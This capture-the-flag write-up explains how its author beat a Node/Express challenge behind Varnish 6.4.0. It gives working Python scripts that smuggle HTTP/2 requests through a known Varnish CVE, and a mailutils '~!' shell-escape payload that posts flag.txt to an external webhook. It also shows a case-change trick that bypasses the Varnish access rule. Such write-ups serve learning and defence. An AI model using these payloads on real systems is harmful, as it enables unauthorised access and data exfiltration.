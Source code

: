 # Smuggling Mail

## Challenge

```txt
Join our waitlist and we'll let you know about apartment vacancies!
```

## Walkthrough

We're given a pretty simple nodejs express server.

```js
app.use("/", express.static(path.join(__dirname, "public")));
app.use("/admin", express.static(path.join(__dirname, "admin")));

app.post("/waitlist", (req, res) => {
    res.send("Sorry, the waitlist is currently closed.");
});

app.post("/admin/alert", (req, res) => {
    if (req.body.msg) {
        const proc = spawn("mail", ["-s", "ALERT", "all_residents@localhost"], { timeout });
        proc.stdin.write(req.body.msg);
        proc.stdin.end();
        setTimeout(() => { kill(proc.pid); }, timeout);
    }

    res.end();
});
```

The server is behind a simple varnish reverse proxy.

```vcl
sub vcl_recv {
    if (req.url ~ "/admin" && !(req.http.Authorization ~ "^Basic TOKEN$")) {
        return (synth(403, "Access Denied"));
    }
}
```

TOKEN generated as such.

```sh
sed -i "s/TOKEN/$(base64 < /dev/urandom | fold -w 64 | tr '/+' '_-' | head -n 1)/" /etc/varnish/varnish.vcl
```

The server itself doesn't have much surface area - the only user controlled input is on /admin/alert and we can only acess that if we successfully guess 64 random bytes, unlikely. Checking the package.json revealed that expressJS was up to date so clearly the exploit wasn't there. This prompted me to look into the varnish server especially with the challenge being clearly hinted as a request *smuggling* challenge.

The Dockerfile revealed the varnish version was clearly out of date:

```Dockerfile
FROM varnish:6.4.0
```

Digging around I found [CVE-2021-36740](https://security.snyk.io/vuln/SNYK-DEBIAN11-VARNISH-1317119).

> Varnish Cache, with HTTP/2 enabled, allows request smuggling and VCL authorization bypass via a large Content-Length header for a POST request.

Looks promising, the hitch configuration has HTTP/2 enabled (`alpn-protos = "h2, http/1.1"`) and we have a valid post endpoint that we can abuse (`/waitlist`).

No POCs exist for this vulnerability so after playing with the `Content-Length` header myself I managed to get request smuggling working.

```py
import httpx
client = httpx.Client(http2=True, verify=False)

msg = '"hi"'
body = 'POST /admin/alert HTTP/1.1\r\nContent-Type: application/json\r\nContent-Length: {}\r\n\r\n{{"msg": {}}}'.format(len(msg)+9, msg)
resp = client.post("https://localhost:4000/waitlist", headers={'Content-length': '0'}, data=body)
```

I added some request logging in the nodejs server to check my exploit locally.

```log
POST /waitlist 200 2.834 ms - 40
writing hi
POST /admin/alert 200 13.788 ms - -
```

Now I had request smuggling working but that still didn't get us the flag. Our input data was being passed into the body of an email generated by GNU mailutils.

```js
const proc = spawn("mail", ["-s", "ALERT", "all_residents@localhost"], { timeout });
proc.stdin.write(req.body.msg);
```

Digging into the documentation I found that using mailutil commands you can actually [execute shell commands](https://mailutils.org/manual/mailutils.html#Executing-Shell-Commands) within the mail body.

> The ‘~!’ escape executes specified command and returns you to mail compose mode without altering your message.

Putting this all together I smuggled a request to the /admin/alert endpoint that executed a shell command leaking the flag.

```py
import httpx

msg = '"~! python -c \\\"import urllib2; urllib2.urlopen(urllib2.Request(\'https://webhook.site/<redacted>\', open(\'flag.txt\', \'r\').read()))\\\""'

client = httpx.Client(http2=True, verify=False)
body = 'POST /admin/alert HTTP/1.1\r\nContent-Type: application/json\r\nContent-Length: {}\r\n\r\n{{"msg": {}}}'.format(len(msg)+9, msg)
resp = client.post('https://localhost:4000/waitlist', headers={'Content-length': '0'}, data=body)
```

Pretty interesting "feature" for a cli mail client...

## Solve

`flag{5up3r_53cr3t_4nd_c001_f14g_g035_h3r3}`

## Bonus

My teammate [Vie](https://github.com/jamiepoli) pointed out that in Varnish you can bypass the VCL and as such the need to smuggle a request by simply capitalizing characters in `admin`.

```sh
$ curl https://localhost:4000/admin/alert -k -X POST
Access Denied%

$ curl https://localhost:4000/Admin/alert -k -X POST
$ # works due to the capital A
```

lol
